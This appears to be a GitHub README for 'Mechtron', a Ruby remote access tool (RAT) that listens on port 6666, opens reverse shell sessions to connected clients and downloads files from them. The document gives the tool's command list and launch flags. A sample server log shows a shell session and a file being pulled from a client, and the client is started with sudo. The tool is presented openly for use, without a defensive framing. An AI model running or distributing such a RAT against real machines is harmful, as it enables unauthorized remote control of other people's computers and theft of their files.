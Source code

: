 # Mechtron
A RAT tool. Mechtron runs on port 6666. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now you'll have to deal with the source folders.

## Commands
clients<br>
session IP<br>
get IP FILE_PATH - text files only<br>
commands<br>

## Instructions
***Client -*** ```./mechtron.rb -c IP```<br>
***Server -*** ```./mechtron.rb -s```<br>
***Help -*** ```./mechtron.rb -h```

## Example Usage

### Server
```
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
127.0.0.1 joined
session 127.0.0.1
session started with 127.0.0.1
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 127.0.0.1 /home/chrisbasinger/dos.sh
Starting download
download finished
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```
